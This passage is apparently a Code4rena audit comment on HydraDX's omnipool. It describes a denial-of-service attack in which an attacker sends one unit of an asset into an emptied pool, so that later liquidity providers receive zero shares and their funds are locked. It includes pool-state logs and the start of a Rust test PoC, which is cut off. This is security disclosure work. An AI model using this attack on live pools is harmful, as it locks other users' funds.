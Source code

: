 **[castle_chain (warden) commented](https://github.com/code-423n4/2024-02-hydradx-findings/issues/75#issuecomment-1993060305):**
> I am providing this additional PoC to prove that sending any non-zero amount of any asset after the entire liquidity removal from the omnipool will cause lock of all funds forever to all liquidity providers.
> 
> ### PoC to test `add_liquidity` after all the liquidity had been removed and the `asset_reserve` is not empty
> 
> This DoS attack will happen when the entire liquidity got removed from the pool of `asset_a`, and the*attacker sends minimum non-zero amount of `asset_a ` to the omnipool pallet account.
> 
> Consider adding this test in `remove_liquidity.rs` test [file](https://github.com/code-423n4/2024-02-hydradx/blob/main/HydraDX-node/pallets/omnipool/src/tests/remove_liquidity.rs), and then run it to see the logs.
>
> The PoC is commented with all the details of the attack:
> 1. LP2 provided 2000 units of `asset_a` by the function `with_token` of the test. the pool state  and the LP2 position are now: 
>
> ```rust 
> asset state before liquidity removal AssetReserveState {
> 	reserve: 2000000000000000, hub_reserve: 1300000000000000,
> 	shares: 2000000000000000, protocol_shares: 0
> 	
> 	the lp2_position before all liquidity removal:
> 	Position { asset_id: 1000, amount: 2000000000000000,
> 		shares: 2000000000000000
> ```
>
> 2. The LP2 removed his entire liquidity from the pool, so the pool state now is:
>
> ```rust
> the final state after all liquidity has been removed:
> AssetReserveState { reserve: 0, hub_reserve: 0
> 	, shares: 0, protocol_shares: 0
> ```
>
> 3. The attacker `LP1` sends one unit of `asset_a` to the pool, and the `LP2` adds liquidity of `400` units of `asset_a`. This will result in asset state of `asset_a` in the omnipool to be `400 + 1 = 401`, and the shares allocated and minted to `LP2` position will be zero.
>
> ```rust 
>  the lp2_position  after adding liquidity of 400 units of asset_a: 
> Position { asset_id: 1000, amount: 400000000000000
> 	,shares: 0	
> 	
> 	the new state after liquidity provision had done but NO shares got minted to LP2:
> 	AssetReserveState { reserve: 401000000000000,
> 		hub_reserve: 0, shares: 0, protocol_shares: 0
> ```
> As shown, the total shares in the pool is equal to zero, and the position shares of the `LP2` is equal to zero, which is consider a permanent lock of funds. 
> 
> ### PoC 
>
> ```rust 
> #[test]
> fn full_liquidity_removal_then_add_liquidity() {
> 	ExtBuilder::default()
> 		.with_endowed_accounts(vec![
> 			(Omnipool::protocol_account(), DAI, 1000 * ONE),
> 			(Omnipool::protocol_account(), HDX, NATIVE_AMOUNT),
> 			(LP2, 1_000, 2000 * ONE),
